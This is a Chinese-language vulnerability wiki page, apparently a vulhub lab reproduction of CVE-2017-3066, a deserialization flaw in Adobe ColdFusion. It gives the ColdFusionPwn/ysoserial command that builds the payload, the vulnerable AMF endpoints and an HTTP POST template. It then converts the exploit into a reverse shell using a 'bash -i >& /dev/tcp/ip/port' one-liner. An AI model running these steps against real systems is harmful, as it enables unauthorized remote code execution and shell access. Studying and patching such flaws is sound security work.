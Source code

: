 <h1>（CVE-2017-3066）Adobe ColdFusion 反序列化漏洞</h1>
<h2>一、漏洞简介</h2>
<h2>二、漏洞影响</h2>
<p>Adobe ColdFusion (2016 release) Update 3及之前的版本<br>
ColdFusion 11 Update 11及之前的版本<br>
ColdFusion 10 Update 22及之前的版本
</p>
<h2>三、复现过程</h2>
<p>使用<a href="https://github.com/ianxtianxt/ColdFusionPwnn">ColdFusionPwn</a>工具来生成POC。</p>
<p><a href="http://wiki.0-sec.org/download/ColdFusionPwn-0.0.1-SNAPSHOT-all.zip">点击下载ColdFusionPwn</a></p>
<h3>Usage</h3>
<pre><code>java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-master-SNAPSHOT.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner [-s|-e] [payload type] '[command]' [outfile]</code></pre>
<p><a href="http://wiki.0-sec.org/download/ysoserial.zip">点击下载ysoserial</a><br>【注意】下载的jar包可能因为时间不同，而更新，包名也就不同。注意将命令中的包名，替换为你下载时候的名字</p>
<pre><code>java -cp ColdFusionPwn.jar:ysoserial.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/CVE-2017-3066_is_success' poc.ser</code></pre>
<p>生成poc.ser文件后，将POC作为数据包body发送给http://your-ip:8500/flex2gateway/amf，Content-Type为application/x-amf
路径不唯一，目前已收集到的为以下两种路径：<br>
/flex2gateway/amf<br>
/messagebroker/amf</p>
<pre><code>POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853
</code></pre>
<p>[...poc...]</p>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/Adobe%20ColdFusion/images/img3.png"/>
<h3>关于发送的内容编码问题</h3>
<p>由于编码问题，如果直接从Notepad++/Notepad里面复制粘贴为body部分，是不成功的，即使返回的状态码是200</p>
<h3>正确发送方式为：</h3>
<p>右击选择Paste From File，上传poc.cer文件</p>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/Adobe%20ColdFusion/images/img4.png"/>
<p>再到Raw界面添加HTTP头部，如果成功，并且打算以后还需要用的话，右击选择Copy to File保存</p>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/Adobe%20ColdFusion/images/img5.png"/>
<p>进入容器中，发现/tmp/success已成功创建：</p>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/Adobe%20ColdFusion/images/img6.png"/>
<p>将POC改成<a href="http://www.jackson-t.ca/runtime-exec-payloads.html">反弹命令</a>，成功拿到shell：</p>
<img src="https://github.com/0xFlag/BugWiKi/blob/main/WebSecurity/Adobe%20ColdFusion/images/img7.png"/>
<p>补充一下反弹shell的命令,可以通过http://www.jackson-t.ca/runtime-exec-payloads.html在线转换</p>
<pre><code>bash -i >& /dev/tcp/ip/port 0>&1</code></pre>
<h2>参考链接</h2>
<p>https://vulhub.org/#/environments/coldfusion/CVE-2017-3066/</p>
